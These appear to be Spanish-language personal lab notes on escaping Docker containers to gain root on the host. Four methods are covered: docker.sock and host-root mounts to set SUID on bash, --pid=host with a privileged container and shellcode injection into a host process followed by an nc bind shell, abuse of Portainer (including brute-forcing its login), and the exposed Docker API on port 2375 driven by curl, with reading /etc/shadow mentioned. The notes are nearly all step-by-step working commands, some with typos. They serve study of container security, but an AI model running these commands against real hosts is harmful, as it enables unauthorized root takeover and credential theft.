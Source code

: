 Se puede explotar debido a la mala configuracion del contenedor.
No solo logras elevar privilegios de administrador dentro del contenedor sino puedes escapar de el para acceder con privilegios a la maquina host
-----------------
Nos descargamos ISO de Ubuntu Server 
Configuramos y esperamos la instalacion

Para verificar que este todo configurado correctamente vamos a hace un escaneo ARP para poder detectar la ip del server


Una vez detectado nos metemos por ssh al servidor 

NOTA:
	LOS SERVIDORES UBUNTU POR DEFECTO TE METEN AL GRUPO LXD LO QUE SUPONE UNA GRAN FALLA YA QUE SE PUEDE ESCALAR PRIVILEGIOS SUID

Asi que desasignamos de la siguiente manera
	gpasswd -d ken lxd

Instalamos docker
	apt install docker.io
	
Cuando hacemos docker ps
	ejecuta por detras el daemon de docker que ejecuta la ruta /var/run/docker.sock
De forma que cuando el demonio de docker esta activo puedes hacer docker ps y te aparecera 

---------------------------
Instalemos un contenedor de docker
	`docker pull ubuntu:latest`

Corremos instancia docker con una montura
	`docker run --rm -dit -v /var/run/docker.sock:/var/run/docker.sock --name ubuntuServer ubuntu`
Nos metemos al contenedof
	`docker -it ubuntuServer bash`
Actualizamos e instalamos docker.io
	apt update && apt install docker.io

Gracias a la montura que se realizo si hacemos docker images somos capaces de ver las imagenes del host


RECORDEMOS 
	Creamos servidor
		Creamos maquina docker con monturas y nos metimos
			dentro del contenedor de docker volveremos a crear otro contenedor


Crearemos contenedor docker  pero con una montura diferente:
	docker run --rm -dit -v /:/mnt/root --name privesc ubuntu
			esta montura hace alusion a la raiz de la maquina host
Nos metemos al nuevo sub-contenedor
	docker exec -it privesc bash

Nos metemos a la ruta 
	/mnt/root/bin/

Damos privilegios suid a bash
	chmod u+s bash

Ahora podemos observar desde otra terminal como se dio privilegios suid a pesar de que estamos en 2 subcontenedores gracias a las monturas estando como usuario no privilegiado

Con otra terminal conectados por ssh al servidor podemos ver que se asignaron privilegios suid a la bash

Entonces solo hacemos bash -p y POWNED

(YA LO RESTANTE ES A IMAGINACION)

-----------------------------------------
----------------------
***FORMA 2**

a la hora de desplegar un contenedor lo que se puede hacer es en vez de meter -v y la montura se mete el comando `--pid=host`

docker run --rm -dit --pid=host --name ubuntuServer ubuntu

Al desplegar ese contenedor todos los proceso que tenemos activos en la maquina host podemos comunicarnos a ellos



Nos metemos al contenedo `docker exec -it ubuntuServer bash`
	ejecutamos el comando `ps -faux`
	podemos ver los servicios que esten corriendo
	![[Pasted image 20250425221837.png]]

Gracias a eso nosotros podemos ejecutar shellcode pero para 32bits   -- EN ESTE CASO TENEMOS 64 BITS POR LOO TANTO MODIFICAREMOS EL SHELLCODE 
			buscamos en el navegador: injecting shellcoode in running process linux
			Web: https://www.0x00sec.org/t/linux-infecting-running-processes/1097
			github para herramienta: https://github.com/0x00pf/0x00sec_code/blob/master/mem_inject/infect.c

Intstalamos:
	apt install gcc netcat

Bucamos en el navegador 
	linux x64 bind shell shellcode exploit db : https://www.exploit-db.com/exploits/41128



Tenemos que asignarle una capabilitie al contenedor 
	apt install libcap2-bin
			ejecutamos
				capsh --print  | grep "sys_ptrace"
					Aparecera que tenemos desactivada la capabilitie
					![[Pasted image 20250425223730.png]]
	Para activarla tenemos que borrar el contenedor y modificarlo a 
			docker run --rm  -dit --pid=host --privileged --name ubuntuServer ubuntu

Nos copiamos el codigo de infect.c de la herramienta GitHub
Nos vamos al directior /tmp/ creamos y pegamos el infect.c (codigo) y modificamos el shellcode size a 87 y cambiamos el shellcode que se encuentra en exploit-db

Tenemos que compilarlo y pasarle el pid del proceso que se esta ejecutando y pwned

gcc inject.c -o inject
	./inject (PID)

![[Pasted image 20250425230323.png]]
Acaba de abrir el puerto 5600 en la maquina host
Entonces hacemos un nc a la maquina host que seria 172.17.0.1
		nc 172.17.0.1 5600
				Obtuvimos shell root
		Solo realizamos tratamiento TTI y CONSEGUIMOS ACCESO TOTAL


***CASO 3***

PORTAINER:
	Portainer es una **herramienta web open-source que permite gestionar contenedores Docker**

El panel de loging de portainer se puede vulnerar de distintas maneras por ataque de fuerza bruta(ya sea hydra, script python etc.)

Ejecutamos el siguiente comando:
	docker run -dit -p 8000:8000 -p 9000:9000 --name portainer --restart=always -v /var/run/docker.sock:/var/run/docker.sock -v /docker/portainer/data:/data portainer/portainer-ce
Nos metemos en el navegador con la ip de la maquina victima en el puerto 9000
	Podemos observar que nos mete a portainer.io
		Creamos usuario admin y su contraseña y nos metemos
![[Pasted image 20250425232245.png]]

Podemos observar que tenemos 1 contenedor activo
La informacion que nos muestra al darle click al container
	![[Pasted image 20250425232345.png]]
Esto esta relacionado cuando hacemos `docker images`

***EL PUNTO DE ESTO ES QUE SI AL ENUMERAR ENCONTRAMOS UN PORTAINER Y LO VULNERAMOS PODEMOS VER LAS IMAGENES Y AGREGAR CONTAINER
	IMAGEN: UBUNTU:LATESTE
	NAME: PRIVESC
	ACTIVAMOS LA OPCION DE INTERCATIVE & TTY
	DAMOS CLICK A MAP ADDITIONAL VOLUME : /MNT/ROOT
	HOST: /
	DEPLOY CONTAINER
	Nos metemos al container
		![[Pasted image 20250425233112.png]]
	Le damos click a Console y que ejecute una /bin/bash
		Connect y se despliega una consola interactiva
		
	EJECUTAMOS LOS SIGUIENTES COMANDOS:

![[Pasted image 20250425233328.png]]

**** POR ULTIMO DESDE SSH EN LA MAQUINA VICTIMA SOLO EJECUTAMOS UNA bash -p y POWNED!!!



------------------
--------------

***CASO 4***
Abusando de la API de docker
Opera por el puerto:
	HTTP -> 2375
	HTTPS -> 2376

No suelen estar activos para activarlos nos metemos a:
	https://gist.github.com/styblope/dc55e0ad2a9848f2cc3307d4819d819f
Seguimos las instrucciones para habilitarlo

Una vez hecho los pasos haremos
	netstat -nat
		Confirmamos que el puerto 2375 este activo
		

Ejecutamos
	docker pull ubuntu:latest
	docker run --rm -dit --name ubuntuServer ubuntu
	docker exec -it ubuntuServer bash
		apt update
		apt install curl jq

dentro del contenedor hacemos:
ps -faux
No existe el recurso  /var/run/docker.sock
echo '' > /dev/tcp/172.17.0.1/2375
echo $?

Entonces nos vamos a HackTricks 2375 pentesting docker
	Buscamos el comando por curl que te genera otro contenedor
		 curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/create?name=test -d '{"Image":"ubuntu:latest", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}'
	![[Pasted image 20250425235854.png]]
	Nos respondera con un identificador
f1fc823f67c6b1a0cbc647f1456bbe203960e661dfe782c48d4c6a2d88a8ea8b

Para listar los contenedores podemos hacer lo siguiente:
	`curl http://172.17.0.1:2375/containers/json | jq`
	
Para listar las imagenes:
`curl http://172.17.0.1:2375/images/json | jq`


Haciendo la enumeracion ya podemos saber que esta ubuntu:latest

Hacemos el sig comando para ejecutar el contenedor:
url -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/f1fc823f67c6b1a0cbc647f1456bbe203960e661dfe782c48d4c6a2d88a8ea8b/start?name=test

***SE HA CREADO EL CONTENEDOR

Ahora con esto realizamos lo siguiente para darle permisos suid a mnt/bin/bash;
	curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/containers/f1fc823f67c6b1a0cbc647f1456bbe203960e661dfe782c48d4c6a2d88a8ea8b/exec -d '{ "AttachStdin": false, "AttachStdout": true, "AttachStderr": true, "Cmd": ["/bin/sh", "-c", "chmod u+s /mnt/bin/bash"]}'
{"Id":"c001c5c1bf7b2d08d23e2d1a06fd26b225e55d6f62495c2de8eb0b7a575b6d6f"}


Ahora  ejecutaremos el comando (adjuntamos el id del contenedor que se creo en el comando anterior):
curl -X POST -H "Content-Type: application/json" http://172.17.0.1:2375/exec/c001c5c1bf7b2d08d23e2d1a06fd26b225e55d6f62495c2de8eb0b7a575b6d6f/start -d '{}'

NOTA: SI QUISIERAMOS VER EL OUTPUT DE CADA VEZ QUE HACEMOS EL CURL AGREGAMOS --output - (Para poder leer archivos como el /etc/shadow)

****LISTO AHORA SOLO HACEMOS "bash -p" DESDE USUARIO NO PRIVILEGIADO Y PWNED!! HEMOS ACCEDIDO COMO ROOT****



	



	